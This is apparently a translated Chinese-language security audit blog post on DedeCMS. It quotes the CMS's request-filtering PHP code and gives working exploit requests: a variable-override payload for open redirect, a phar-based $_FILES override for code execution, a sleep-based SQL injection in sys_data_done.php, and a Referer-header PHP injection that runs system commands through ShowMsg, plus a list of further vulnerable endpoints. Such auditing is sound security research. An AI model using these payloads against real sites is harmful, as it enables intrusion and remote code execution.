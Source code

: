 # Dedecms审计

前言: 很明显这是一篇翻译文章

## 0x01 输入是怎么被处理的

```php
function _RunMagicQuotes(&$svar)
{
    if (!@get_magic_quotes_gpc()) {
        if (is_array($svar)) {
            foreach ($svar as $_k => $_v) {
                $svar[$_k] = _RunMagicQuotes($_v);
            }

        } else {
            if (strlen($svar) > 0 && preg_match('#^(cfg_|GLOBALS|_GET|_POST|_COOKIE|_SESSION)#', $svar)) {
                exit('Request var not allow!');
            }
            $svar = addslashes($svar);
        }
    }
    return $svar;
}

if (!defined('DEDEREQUEST')) {
    //检查和注册外部提交的变量   (2011.8.10 修改登录时相关过滤)
    function CheckRequest(&$val)
    {
        if (is_array($val)) {
            foreach ($val as $_k => $_v) {
                if ($_k == 'nvarname') {
                    continue;
                }

                CheckRequest($_k);
                CheckRequest($val[$_k]);
            }
        } else {
            if (strlen($val) > 0 && preg_match('#^(cfg_|GLOBALS|_GET|_POST|_COOKIE|_SESSION)#', $val)) {
                exit('Request var not allow!');
            }
        }
    }

    //var_dump($_REQUEST);exit;
    CheckRequest($_REQUEST);
    CheckRequest($_COOKIE);

    foreach (array('_GET', '_POST', '_COOKIE') as $_request) {
        foreach ($$_request as $_k => $_v) {
            if ($_k == 'nvarname') {
                ${$_k} = $_v;
            } else {
                ${$_k} = _RunMagicQuotes($_v);
            }

        }
    }
}
```

```php
if (!defined('DEDEREQUEST')) {
    //检查和注册外部提交的变量   (2011.8.10 修改登录时相关过滤)
    function CheckRequest(&$val)
    {
        if (is_array($val)) {
            foreach ($val as $_k => $_v) {
                if ($_k == 'nvarname') {
                    continue;
                }

                CheckRequest($_k);
                CheckRequest($val[$_k]);
            }
        } else {
            if (strlen($val) > 0 && preg_match('#^(cfg_|GLOBALS|_GET|_POST|_COOKIE|_SESSION)#', $val)) {
                exit('Request var not allow!');
            }
        }
    }

    //var_dump($_REQUEST);exit;
    CheckRequest($_REQUEST);
    CheckRequest($_COOKIE);

    foreach (array('_GET', '_POST', '_COOKIE') as $_request) {
        foreach ($$_request as $_k => $_v) {
            if ($_k == 'nvarname') {
                ${$_k} = $_v;
            } else {
                ${$_k} = _RunMagicQuotes($_v);
            }

        }
    }
}
```

我们可以看见一个经典漏洞就是`变量覆盖`

```
dede/co_url.php?_SERVER[SERVER_SOFTWARE]=PHP%201%20Development%20Server&_SERVER[SCRIPT_NAME]=www.baidu.com
```

![image-20211002054740846](https://img.dem0dem0.top/images/image-20211002054740846.png)

```
攻击者可以利用 Open redirect 漏洞诱骗用户访问某个可信赖站点的 URL，并将他们重定向到恶意站点。攻击者通过对 URL 进行编码，使最终用户很难注意到重定向的恶意目标，即使将这一目标作为 URL 参数传递给可信赖的站点时也会发生这种情况
```

再加上

```
plus/recommend.php?_FILES[poc][name]=0&_FILES[poc][type]=1337&_FILES[poc][tmp_name]=phar:///path/to/uploaded/phar.rce&_FILES[poc][size]=
```

![image-20211002060938290](https://img.dem0dem0.top/images/image-20211002060938290.png)

![image-20211002060951937](https://img.dem0dem0.top/images/image-20211002060951937.png)

这不是堪称完美。

这里是 先对$_FILES进行一次迭代$_FILE[1]，然后$_FILES[A][2]感觉

后面的代码就很正常了。**感觉这里可以原地造一个题出来。**

## 0x02 sql注入

![image-20211002101414424](https://img.dem0dem0.top/images/image-20211002101414424.png)

我们可以看到这是唯一的sql注入的过滤函数。

![image-20211002101443364](https://img.dem0dem0.top/images/image-20211002101443364.png)

看到被使用的地方不多，我们可以通过找到，执行`mysqli_query`但是没有执行该函数的地方。

```
ExecuteSafeQuery
IsTable
GetVersion
GetTableFields
```

```
GetTableFields
```

发现下面这个是最好的利用点。

```
/dede/sys_data_done.php?dopost=bak&tablearr=1&nowtable=%23@__vote+where+1=sleep(5)--+& HTTP/1.1
```

## 0x03 ShowMsg RCE

![image-20211002104807891](https://img.dem0dem0.top/images/image-20211002104807891.png)

![image-20211002104818885](https://img.dem0dem0.top/images/image-20211002104818885.png)

![image-20211002104910416](https://img.dem0dem0.top/images/image-20211002104910416.png)

![image-20211002105258814](https://img.dem0dem0.top/images/image-20211002105258814.png)

![image-20211002105410762](https://img.dem0dem0.top/images/image-20211002105410762.png)

这个变量来自于FERER但是可以被加载的模板文件中，最后被php解析，这是一个，我们就可以对它进行构造

```
GET /plus/flink.php?dopost=save&c=id HTTP/1.1
Host: target
Referer: <?php "system"($c);die;/*
```

其他利用路劲

```
/plus/flink.php?dopost=save
/plus/users_products.php?oid=1337
/plus/download.php?aid=1337
/plus/showphoto.php?aid=1337
/plus/users-do.php?fmdo=sendMail
/plus/posttocar.php?id=1337
/plus/vote.php?dopost=view
/plus/carbuyaction.php?do=clickout
/plus/recommend.php
```

最后的修复是直接

`echo $msg`

